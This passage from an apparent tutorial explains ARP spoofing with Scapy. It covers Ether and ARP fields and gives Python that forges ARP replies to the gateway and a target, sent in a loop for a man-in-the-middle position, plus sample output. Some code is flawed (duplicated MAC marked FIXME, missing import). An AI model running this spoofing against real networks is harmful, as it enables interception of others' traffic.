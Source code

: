 The fields of interest are:

- Ether layer
  - `dst` - Destination MAC address of the packet
  - `src` - Source MAC address of the packet
- ARP layer
  - `op` - ARP operation. As mentioned above, 1 for a request, 2 for a reply
  - `psrc` - Packet source IP address
  - `hwsrc` - MAC address of source. Normally is the same as `src`
  - `pdst` - Packet destination IP address
  - `hwdst` - MAC address of destination. Normally the same as `dst`

## So, how does ARP spoofing work?

Basic ARP spoofing works by claiming to be the MAC address of your victim louder and more frequently than the victim. To man-in-the-middle connection, we need to inform the gateway (or most likely your router) that we are the target machine, and we need to inform the target machine that we are the the gateway.

**Constructing our basic ARP spoof packets**

```python{numberLines: true}
from scapy.all import Ether, ARP

gateway_mac = '0c:8d:db:71:c0:87'
gateway_ip = '10.128.128.128'
target_mac = '0c:8d:db:71:c0:87' ### TODO: FIXME
target_ip = '10.105.190.249'

target_packet = Ether(dst=target_mac) / ARP(
    op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
)
router_packet = Ether(dst=gateway_mac) / ARP(
    op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
)
```

Now all we need to do is beacon out these packets nonstop:

```python
import time

while True:
    sendp([target_packet, router_packet])
    time.sleep(self.sleep_time_sec)
```

Now you should see something like this when run:

```bash
~/s/b/a/src  sudo python3 arp_intro.py
..
Sent 2 packets.
..
Sent 2 packets.
..
Sent 2 packets.
..
Sent 2 packets.
```
